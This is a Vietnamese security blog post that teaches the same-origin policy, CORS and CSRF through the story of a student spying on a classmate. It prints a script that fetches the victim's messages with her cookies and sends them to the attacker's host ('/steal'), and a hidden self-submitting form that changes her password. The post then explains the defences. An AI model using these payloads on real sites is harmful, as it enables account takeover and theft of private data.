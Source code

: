 ﻿---
url: [/post/bai-hoc-nho-doi-ve-sop-cors-va-csrf]
title: "Bài học nhớ đời về SOP, CORS và CSRF"
$attribute: PostMetadata(Id = 1, Title = "Bài học nhớ đời về SOP, CORS và CSRF", Category = "Bảo mật", LastModified = "05-10-2025")
$layout: BlogContentLayout
---

Ánh nắng cuối thu vàng óng trải dài trên sân trường, len lỏi qua kẽ lá những 
hàng phượng già. Trong không gian ấy, trái tim non nớt của M, chàng trai mười 
bảy tuổi, thổn thức vì N, cô bạn cùng lớp với mái tóc đen mượt mà và 
nụ cười khiến trái tim bao chàng trai rung động.

Rồi một chiều mưa, M bắt gặp N ngồi trong thư viện, đôi má ửng hồng, 
ngón tay thon thả lướt nhẹ trên màn hình điện thoại. Trái tim M chợt thắt lại khi 
nhận ra N đang nhắn tin rất vui vẻ với D - chàng trai nổi tiếng nhất khối trên 
"Hệ thống học tập trực tuyến" của trường (school-learning.edu.vn).

"Chắc chắn họ đang có điều gì đó!" - M nghĩ thầm. Cơn ghen tuông mù quáng 
bắt đầu gặm nhấm trái tim non nớt của chàng trai.

Đêm ấy, M trằn trọc không yên. Và rồi M quyết định thực hiện một kế hoạch đen tối, đó là  
đọc trộm tin nhắn của N.

# Kế hoạch hoàn hảo... thất bại thảm hại

Biết N nghiện xem phim, M đã thức trắng đêm dựng một trang web xem phim free 
với giao diện tuyệt đẹp có đủ những bộ phim đang hot mà M biết N rất thích. 
Rồi M nhét vào đó một đoạn JavaScript:
```javascript
fetch('https://school-learning.edu.vn/api/private-messages/N', {
  method: 'GET',
  credentials: 'include' // Gửi cả cookie của N
}).then(response => response.json())
  .then(data => {
    // Gửi tin nhắn lấy được về server của M
    fetch('https://phimhay.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

Kế hoạch của M có vẻ hoàn hảo:
- Khi N truy cập vào trang web xem phim của M, đoạn mã JavaScript này sẽ chạy.
- Đoạn mã gửi một request đến server của trường để lấy tin nhắn, 
kèm theo cookie đăng nhập sẵn có của N. Về lý thuyết, server sẽ xem đây 
là request hợp lệ từ N.
- Sau khi lấy được dữ liệu, nó gửi toàn bộ tin nhắn về server do M kiểm soát.

Sáng hôm sau, M hồi hộp mời N vào trang web: 
"Trang này có nhiều phim hay lắm, cậu thử xem đi!"

N mỉm cười cảm ơn và mở trang web. 
M mỉm cười hài lòng. Nhưng rồi...

Trình duyệt báo lỗi đỏ lòm:
```
Access to fetch at 'https://school-learning.edu.vn/api/private-messages/N' 
from origin 'https://phimhay.com' has been blocked by CORS policy: 
No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

Kế hoạch của M thất bại thảm hại.

# Same-Origin Policy (SOP) - Bức tường thành của trình duyệt

Bực tức vì thất bại, M tìm đến K than thở, một đại cao thủ về bảo mật của trường.

K giải thích:
"Cái này là do Same-Origin Policy (SOP) đấy. Nó là chính sách bảo mật của trình duyệt, 
ngăn không các script từ origin này đọc tài nguyên từ origin khác."

"Một origin được xác định bởi 3 thứ:" - K vừa nói vừa vẽ lên bảng:
```
Scheme (Giao thức) + Domain (Tên miền) + Port (Cổng) = Origin
```

Ví dụ:

- https://phimhay.com và https://school-learning.edu.vn khác origin vì domain khác nhau
- http://phimhay.com và https://phimhay.com cũng khác origin vì scheme khác nhau
- https://phimhay.com:80 và https://phimhay.com:3000 cũng khác origin vì port khác nhau


"SOP đã ngăn đoạn script từ phimhay.com của mày đọc được phản hồi từ 
school-learning.edu.vn, dù request đó có được gửi đi và thậm chí server 
có xử lý đi chăng nữa."

# CORS - Cánh cổng có kiểm soát

M thắc mắc: "Vậy làm sao các trang web gọi API từ domain khác được? 
Ví dụ web của tao muốn lấy dữ liệu phim từ TMDB?"

"À, đó là nhờ CORS - Cross-Origin Resource Sharing!" - K giải thích. 
"CORS không phải để vượt qua SOP, mà là một cơ chế cho phép server tự nguyện 
nói với trình duyệt rằng: 'Tôi đồng ý cho origin kia truy cập tài nguyên của mình'."

"Khi trình duyệt thấy script từ phimhay.com gọi API đến school-learning.edu.vn, 
nó sẽ gửi kèm một header Origin: https://phimhay.com. Server của trường sẽ kiểm tra. 
Nếu đồng ý, nó phản hồi với header:"
```http
Access-Control-Allow-Origin: https://phimhay.com
Access-Control-Allow-Credentials: true
```

"Lúc đó, trình duyệt mới cho phép script của mày đọc phản hồi."

"Dĩ nhiên, school-learning.edu.vn sẽ không bao giờ đặt header đó cho domain của 
mày đâu. Còn TMDB thì có, vì họ muốn các ứng dụng bên thứ ba sử dụng API của họ."

# CSRF - Cơ hội cuối cùng

M thở dài: "Vậy là bó tay thật sao?"

K mỉm cười: "Đọc dữ liệu thì khó, nhưng thực hiện hành động thì... có thể. 
Vì SOP chỉ ngăn đọc response chứ không ngăn việc gửi request đi.  
Đây chính là cơ sở cho CSRF - Cross-Site Request Forgery."

"CSRF là gì vậy?" M hỏi.

"Giống như ai đó giả mạo chữ ký của mày để xin nghỉ học ấy. Trang web lợi dụng 
việc trình duyệt tự động gửi kèm cookie đăng nhập của mày đến một site khác để 
thực hiện hành động thay mày."

"Ví dụ, nếu hệ thống trường có chức năng đổi mật khẩu đơn giản, chỉ cần POST 
lên một endpoint là mày có thể đổi mật khẩu, mày có thể tạo một form ẩn như này:"
```markup
<!-- Trên web xem phim https://phimhay.com của M -->
<form id="csrfForm" action="https://school-learning.edu.vn/change-password" method="POST" style="display:none">
    <input type="password" name="new_password" value="hacked123">
    <input type="password" name="confirm_password" value="hacked123">
</form>
<script>
    // Tự động submit form khi N truy cập trang
    document.getElementById('csrfForm').submit();
</script>
```

K giải thích tiếp: "Chỉ cần N truy cập trang web của mày, trình duyệt sẽ ngay 
lập tức gửi request đổi mật khẩu đến server trường học. Vì cookie đăng nhập của N 
vẫn còn hiệu lực, request này sẽ được xử lý như chính N thực hiện, 
mà cô ấy không hề hay biết!"

M reo lên: "Hay quá! Vậy là vẫn có cách!"

"Đừng vội!" K ngăn lại, "Các trang web hiện đại đều có cơ chế phòng chống CSRF. 
Phổ biến nhất là CSRF Token - giống như mã OTP cho mỗi form hoặc request quan trọng."

```markup
<!-- Form trên school-learning.edu.vn -->
<form action="https://school-learning.edu.vn/change-password" method="POST">
    <input type="password" name="new_password">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6_random_string">
</form>
```

"Server sẽ kiểm tra token này. Web của mày không thể lấy được token thật từ 
trang web thật của trường (nhờ SOP), nên request giả mạo sẽ thiếu token hợp lệ 
và bị từ chối ngay."

K giải thích thêm: "Ngoài token, các website còn có những cơ chế bảo vệ khác như:"
- Kiểm tra header Origin và Referer: Server sẽ kiểm tra xem request có thực sự 
đến từ domain của chính nó không.
- SameSite Cookie: Thuộc tính cookie có thể được đặt là `SameSite=Strict` 
hoặc `SameSite=Lax` để trình duyệt không gửi cookie trong các request chéo site.

"CSRF thời nay gần như bất khả thi trên các web lớn – trừ khi developer... quên đặt token."


Không lâu sau, hệ thống trường học gửi cảnh báo bảo mật về một request bất thường 
trên tài khoản của N. Buổi chiều hôm ấy, N tìm đến M với ánh mắt nghi ngờ. 
"Có phải cậu đứng sau trang web xem phim đó không?" - N hỏi thẳng. 

M đứng lặng người, mặt tái đi. Cậu không ngờ hệ thống trường học lại phát hiện 
nhanh đến vậy, dù kế hoạch chưa thành công. Chiếc lá vàng cuối cùng rơi xuống khi 
N quay lưng bỏ đi, để lại M trong sự im lặng nặng nề.